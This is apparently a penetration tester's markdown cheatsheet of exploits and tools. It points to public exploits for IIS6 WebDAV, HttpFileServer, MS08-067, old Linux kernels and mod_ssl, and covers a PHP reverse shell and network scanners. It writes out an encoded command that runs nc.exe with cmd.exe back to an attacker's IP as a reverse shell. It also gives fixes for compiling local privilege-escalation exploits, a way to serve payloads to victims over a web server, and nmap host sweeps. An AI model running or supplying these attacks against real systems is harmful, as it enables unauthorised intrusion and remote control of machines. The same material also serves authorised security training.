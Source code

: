 # Exploits/Tools/Cheatsheets
 
### Windows Exploits

<details><summary>CVE-2017-7269</summary>
<p>
source: https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

```python
python exploit.py <ip> <port> <attacking-ip> <attacking-port>
```

</p>
</details>

<details><summary>MS14-058 HttpFileServer 2.3.x RCE</summary>
<p>
source: https://www.exploit-db.com/exploits/37064
 
Upload nc.exe into victim machine and performs a reverse shell using nc.exe

```python
    #change these to your webserver for uploading nc.exe
    ip_addr = "192.168.1.20" 
    local_port = "80" 
    #file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>

<details><summary>MS08-067 Python Remote Exploit</summary>
<p>
source: https://www.exploit-db.com/exploits/40279
edit `shellcode` variable with payload and adjusts NOPS to fit it

</p>
</details>



### Linux Exploits
<details><summary>CVE-2017-7269</summary>
<p>
source: `searchsploit -m exploits/linux/local/18411.c`

If you encountered compilation errors like:
```c
Compilation errors like ' error: ‘CLONE_VM’ undeclared (first use in this function); did you mean ‘CLNEXT’'
```

fix by adding the following above code:
```c
#define _GNU_SOURCE     
#include <sched.h>
```

To Compile:
```bash
gcc 18411.c -o exploit
```

</p>
</details>


<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>
source: https://www.exploit-db.com/exploits/3

Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>
source: https://www.exploit-db.com/exploits/764
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.

Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>
source: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>
source: https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh
 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>
source: https://github.com/droope/droopescan
 
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>

<details><summary>Samba Checker - checks for samba version</summary>
<p>

Checks Samba version as enum4linux messed up?
THanks fellow student OS-40285/rewardone

```bash
./samba_checker.sh <ipaddress> <port>
```
</p>

</details>



